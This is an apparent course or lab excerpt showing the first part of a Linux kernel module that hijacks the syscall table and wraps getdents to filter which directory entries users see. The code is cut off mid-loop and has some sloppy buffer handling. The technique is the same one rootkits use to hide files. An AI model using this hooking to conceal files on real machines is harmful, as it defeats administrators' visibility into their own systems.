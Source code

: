 
### Section 8.4

کد `hide_home_entries.c`:
```c
#include <asm/ptrace.h>
#include <linux/dirent.h>
#include <linux/fs.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/kprobes.h>
#include <linux/module.h>
#include <linux/namei.h>
#include <linux/path.h>
#include <linux/slab.h>
#include <linux/string.h>
#include <linux/syscalls.h>
#include <linux/uaccess.h>

#define MAX_BUFFER_SIZE 65536

MODULE_AUTHOR("Iman Mohammadi & Negar Babashah");
MODULE_LICENSE("GPL");

typedef unsigned long (*lookup_func_t)(const char *name);
typedef asmlinkage long (*original_getdents_t)(struct pt_regs *);

static void **global_syscall_table;
original_getdents_t original_getdents;

void make_page_writable(void *addr) {
    unsigned int lvl;
    pte_t *pte = lookup_address((unsigned long) addr, &lvl);
    if (pte->pte & ~_PAGE_RW) pte->pte |= _PAGE_RW;
}

void restore_page_protection(void *addr) {
    unsigned int lvl;
    pte_t *pte = lookup_address((unsigned long) addr, &lvl);
    if (pte->pte & _PAGE_RW) pte->pte &= ~_PAGE_RW;
}

asmlinkage long modified_getdents(struct pt_regs *regs) {
    struct linux_dirent64 *dirent_buf, *cur_dirent;
    struct inode *inode;
    struct path path;
    int read_bytes = (*original_getdents)(regs);
    dirent_buf = (struct linux_dirent64 *) kmalloc(MAX_BUFFER_SIZE, GFP_KERNEL);
    if (copy_from_user(dirent_buf, (void *) regs->si, MAX_BUFFER_SIZE)) return 0;
    cur_dirent = dirent_buf;
    kern_path("/home/", 0, &path);
    inode = path.dentry->d_inode;
    path_put(&path);
    long home_inode_num = inode->i_ino;

    int offset = 0;
    while (offset < read_bytes) {
        if ((strncmp(cur_dirent->d_name, ".", 1) == 0 || strncmp(cur_dirent->d_name, "..", 2) == 0) &&
            cur_dirent->d_ino != home_inode_num) {
            offset += cur_dirent->d_reclen;
            cur_dirent = (struct linux_dirent64 *) (((char *) dirent_buf) + offset);
            continue;
        }
```